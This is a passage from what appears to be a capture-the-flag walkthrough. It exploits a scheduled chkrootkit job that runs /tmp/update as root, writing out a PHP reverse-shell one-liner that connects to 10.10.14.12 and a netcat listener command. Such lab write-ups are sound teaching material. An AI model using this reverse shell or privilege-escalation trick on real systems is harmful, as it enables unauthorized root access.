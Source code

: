 ![](../images/max/890/1*ekBPVdpGUEeu7fHUwwkQCA.png)

Every minute or so the chkrootkit is being run. I’ve never seen that on a machine before so I googled it and found out that it is a program intended to help system administrators check their system for known rootkits. Next, I googled “chkrootkit privilege escalation” and landed on this [exploit](https://www.exploit-db.com/exploits/33899).

There is a privilege escalation vulnerability with old versions of this software that will run any executable file named /tmp/update as root. Therefore, all we have to do is create an “update” file that contains a reverse shell and wait for the scheduled task to give us a shell with root privileges.

To do that, navigate to the /tmp directory and create the file update. In the update file add the following code.

```text
#!/bin/bashphp -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Wait a minute until the scheduled task runs.

![](../images/max/737/1*fkGv4JXqwIYAfUDWhzfFow.png)

We get a privileged shell! Now we can view the user.txt flag and the root.txt flag.

![](../images/max/608/1*_7rc4kgqnst7z5OJHY2F0g.png)

## Extra Content <a id="7b47"></a>

After watching [ippsec’s video](https://www.youtube.com/watch?v=K9DKULxSBK4) on how to solve the machine, I found another way to solve it.
